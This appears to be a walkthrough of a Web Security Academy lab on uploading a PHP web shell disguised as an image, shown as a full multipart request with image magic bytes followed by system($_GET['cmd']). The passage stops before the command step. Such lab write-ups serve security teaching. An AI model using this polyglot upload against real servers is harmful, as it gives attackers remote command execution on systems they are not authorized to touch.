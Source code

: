 **Credentials**
```
wiener:peter
```

**Solution**

In this lab after successful login, we can upload an Avatar image from the My Account page. This time if we upload our previous `exploit.php` they give us the following error message.

```
Error: file is not a valid image
Sorry, there was an error uploading your file
```

They are checking if the file is an image file or not if we change the file name to `exploit.jpg.php` they still show us the same error message. That means they are configured more robustly than before, when we upload a simple image file with a PHP extension they accept it. This means they are checking file magic bytes to see if the file is an actual image file or not.

We can exploit it by appending PHP web shell code in the image file and uploading it with the `.php` extension, our request should look like the following.

```
POST /my-account/avatar HTTP/1.1
Host: 0a90005d03ebc50080d6e1da00d30040.web-security-academy.net
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYPRUedjz9k4tV5SJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=9CxLmw2LqOMvHlpCd5ckFWixkYJQw2cf
Content-Length: 971

------WebKitFormBoundaryYPRUedjz9k4tV5SJ
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: application/x-php

PNG

[Image binary data]<?php echo 'START ' . system($_GET["cmd"]) . ' END'; ?>[Image binary data]
------WebKitFormBoundaryYPRUedjz9k4tV5SJ
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryYPRUedjz9k4tV5SJ
Content-Disposition: form-data; name="csrf"

HIUVjEcZh6jY37Nt047BkDKEQN7rebDf
------WebKitFormBoundaryYPRUedjz9k4tV5SJ--
```

Send that request, the server will check the request if it has the image magic bytes or not and accepts or deny the request based on that. They accept it in this case because they solely rely on the magic bytes and upload the image file on the server. After the upload visit the file location and send the following GET request in its URL.
